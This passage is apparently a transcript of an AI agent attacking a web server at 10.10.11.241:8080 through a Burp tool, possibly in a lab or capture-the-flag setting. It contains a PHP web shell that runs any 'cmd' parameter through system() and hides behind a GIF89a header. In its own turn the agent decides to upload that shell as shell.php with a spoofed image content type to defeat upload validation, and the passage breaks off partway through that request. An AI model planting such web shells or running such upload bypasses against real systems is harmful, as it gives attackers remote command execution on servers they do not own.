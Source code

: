 GIF89a;
<?php
if(isset($_REQUEST['cmd'])){
    echo "<pre>";
    $cmd = ($_REQUEST['cmd']);
    system($cmd);
    echo "</pre>";
}
?>
<environment_details>
# VSCode Visible Files
(No visible files)

# VSCode Open Tabs
(No open tabs)

# Current Time
5/7/2025, 12:39:01 PM (America/New_York, UTC-4:00)

# Context Window Usage
32,897 / 200K tokens used (16%)

# Current Mode
ACT MODE
</environment_details>

---

**Assistant:**

<thinking>
We found our uploaded file at /uploads/shell.php.gif, but it seems that the PHP code is not being executed. The server is treating it as a regular image file (Content-Type: image/gif) and just returning the file content as-is.

This could be due to several reasons:
1. The server might not be configured to execute PHP code in files with .gif extension
2. There might be additional security measures in place

Let's try a different approach. Let's try to upload a file with a .php extension directly and see if that works. If the server has weak file type validation, it might accept our PHP file.
</thinking>

I found our uploaded file at /uploads/shell.php.gif, but the PHP code isn't being executed. The server is treating it as a regular image file and just returning the raw content. Let's try a different approach by uploading a file with just a .php extension to see if that works.

<use_mcp_tool>
<server_name>burpmcp</server_name>
<tool_name>http1-send</tool_name>
<arguments>
{
  "data": "POST /upload.php HTTP/1.1\r\nHost: 10.10.11.241:8080\r\nUser-Agent: Mozilla/5.0\r\nAccept: text/html,application/xhtml+xml,application/xml\r\nCookie: PHPSESSID=6qaatgee7p8mj7aeu3fc0g3jtn\r\nContent-Type: multipart/form-data; boundary=---------------------------12345678901234567890123456789\r\nContent-Length: 323\r\nConnection: close\r\n\r\n-----------------------------12345678901234567890123456789\r\nContent-Disposition: form-data; name=\"image\"; filename=\"shell.php\"\r\nContent-Type: image/jpeg\r\n\r\nGIF89a;\r\n<?php\r\nif(isset($_REQUEST['cmd'])){\r\n    echo \"<pre>\";\r\n    $cmd = ($_REQUEST['cmd']);\r\n    system($cmd);\r\n    echo \"</pre>\";\r\n}\r\n?>\r\n-----------------------------12345678901234567890123456789--",